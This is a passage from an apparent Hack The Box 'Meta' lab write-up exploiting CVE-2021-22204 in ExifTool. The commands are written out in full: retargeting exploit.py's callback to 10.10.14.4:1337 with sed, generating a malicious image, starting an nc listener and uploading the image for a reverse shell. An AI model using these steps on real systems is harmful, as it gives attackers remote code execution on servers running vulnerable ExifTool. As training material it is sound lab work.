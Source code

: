 Install pre-reqs if needed:

```sh
┌──(root💀kali)-[~/htb/meta/CVE-2021-22204-exiftool]
└─# apt install djvulibre-bin exiftool
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
Note, selecting 'libimage-exiftool-perl' instead of 'exiftool'
djvulibre-bin is already the newest version (3.5.28-2).
libimage-exiftool-perl is already the newest version (12.39+dfsg-1).
0 upgraded, 0 newly installed, 0 to remove and 135 not upgraded.
```

Looking at exploit.py we need to change IP and Port:

```text
┌──(root💀kali)-[~/htb/meta/CVE-2021-22204-exiftool]
└─# more exploit.py
#!/bin/env python3
import base64
import subprocess
ip = '127.0.0.1'
port = '9090'
```

Do that with sed for speed:

```sh
┌──(root💀kali)-[~/htb/meta/CVE-2021-22204-exiftool]
└─# sed -i 's/127.0.0.1/10.10.14.4/g' exploit.py

┌──(root💀kali)-[~/htb/meta/CVE-2021-22204-exiftool]
└─# sed -i 's/9090/1337/g' exploit.py
```

Run the exploit to create our malicious image file:

```sh
┌──(root💀kali)-[~/htb/meta/CVE-2021-22204-exiftool]
└─# python3 exploit.py
    1 image files updated
```

Now start a nc listening on port 1337, then back to the website and upload our image:

![meta-upload-exploit](/assets/images/2022-01-23-11-53-23.png)

## Reverse Shell
